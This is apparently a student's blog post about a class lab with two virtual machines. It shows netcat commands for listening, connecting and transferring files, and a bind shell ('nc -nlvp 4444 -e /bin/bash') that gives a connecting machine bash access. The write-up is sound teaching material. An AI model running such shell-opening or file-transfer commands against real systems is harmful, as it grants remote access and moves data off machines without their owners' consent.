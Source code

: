 ```yaml
---
layout: post
title:  "Blog 11 - NETCAT - Reverse turnel"
date:   2020-11-20 11:59:25 -0700
categories: jekyll blogs
auther: "Namtae"
---
```

<h3>NETCAT COMMAND</h3>
<p>This week I have an extra credit for CIT 425 which using NETCAT command</p>
<p>This assignment required 2 vm machines and using ncat command for create a connection between the 2 machines</p>
In my case I'm naming my server machine is Bob and client machine is Alice

On the client machine(Alice) run <code>nc -nlvp 4444</code>
<ul>
    <li>n - numeric-only IP address</li>
    <li>l - listen mode</li>
    <li>p - port</li>
    <li>v - verbose</li>
    <li>4444 - port number 4444</li>
</ul>
This means at the client machine, we run this command for allowing the client to listen on port 4444

On the server machine (Bob) run <code>nc -nv [client's machine IP address] 4444
<ul>
    <li>n - numeric-only IP address</li>
    <li>v - verbose</li>
    <li>[client's machine IP address] - replace with the target machine</li>
</ul>
This mean at the server client, we run this command for connecting the client machine via port 4444


<h3>To transfer file</h3>
If you want to transfer a file from client command

At the server machine 
run <code>nc –nlvp 4444 > fromClient.txt</code>
<ul>
    <li>fromClient.txt - a file that will get a copy of the file that you copy from</li>
</ul>

At the client machine 
run <code>nc –nv [server machine's IP Address] 4444 < [file path]
<ul>
    <li>[server machine's IP Address] - replace this with the target IP address</li>
    <li>[file path] - replace this with your file path</li>
</ul>

<h3>Bind Shell</h3>
<p>At alice, execute: touch foo.bar (to make a file named foo.bar in current directory)</br>
At Alice, execute: <code>nc –nlvp 4444 –e /bin/bash</code><br>
At Bob, execute: <code>nc –nv ip.addr.of.alice 4444</code><br>
At Bob, type “ls” and press enter<br>
At Bob, type “whoami” and press enter<br>
<img src="https://raw.githubusercontent.com/namtaetech/namtaetech.github.io/master/docs/_posts/assets/Picture1.png">
Explain why Bob is seeing these results for “ls” and “whoami”<br>
	Because when Alice run nc -nlvp 4444 -e /bin/bash, it is telling the listening port to have an environment of bash. So, anyone who connects to Alice using port 4444, they will be able to use bash command on Alice machine and be able to access her file system. </p>







